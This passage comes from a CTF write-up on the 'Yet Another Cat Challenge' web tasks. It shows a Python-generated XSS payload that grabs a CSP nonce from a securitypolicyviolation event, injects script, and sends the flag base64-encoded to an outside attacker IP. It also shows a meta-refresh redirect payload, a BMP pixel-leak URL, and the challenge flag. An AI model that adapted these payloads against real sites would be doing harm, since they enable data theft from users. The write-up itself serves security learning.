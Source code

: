 ```python
# index.html
f'''
location = '{redirect_url}'
'''
```

Flag: `p4{you_painted_it_yourself!}`

This is apparently an unintended solution. Another unintended solution is using `window.open`. See [@terjanq's payload](https://gist.github.com/terjanq/a50aa6a3b78fbc4350e5a14e2ff0a7d8) for details. Both solution does not exploit through the flag JSONP API.

The intended solution, according to XeR, is using BMP to leak the pixels, as the CSP allows to include images from `self`.

```
http://yayacc.zajebistyc.tf/flag?var=%42%4D%50%00%00%00%00%00%00%00%20%00%00%00%0C%00%00%00%08%00%0A%00%01%00%01%00%FF%FF%FF%00%00%00
```

And use `<img>` to load the flag and leak it.

### Yet Another Yet Another Cat Challenge

This is a fixed version of the previous challenge by removing the script element `document.scripts[0].remove()`. We can no longer retrieve the nonce.

However, violating CSP will fire an event [SecurityPolicyViolationEvent](https://developer.mozilla.org/en-US/docs/Web/API/SecurityPolicyViolationEvent), which can be useful to retrieve the nonce.

The attack steps are exactly the same as the previous challenge.

```python
#!/usr/bin/env python3
import requests
from base64 import b64encode
from urllib.parse import quote
def replace(x):
    for old, new in [
        ('"', '\\x22'),
        ('<', '\\x3c'),
        ('>', '\\x3e'),
        ('\n', ''),
        ]:
        x = x.replace(old, new)
    return x
payload = quote(replace('''
document.addEventListener(`securitypolicyviolation`, function (e) {
  nonce=e.originalPolicy.substring(182, 204);
  document.write(`<script nonce="${nonce}" src="/flag?var=flag"></script><script nonce="${nonce}">location="//133.221.333.123:1337/flag222.html?"+btoa(flag)</script>`);
});
fetch(`foo`)
'''))
redirect_url = 'http://yayacc.zajebistyc.tf/note/6fadeb7c-b5cc-426c-b7dc-92a7cba5fdd7?theme=' + payload
print(redirect_url)

# cat type payload
print(f'</script><meta http-equiv="refresh" content="0;url=http://133.221.333.123:1337" />'.replace('"', '&quot;'))
# index.html
f'''
location = '{redirect_url}'
'''
```
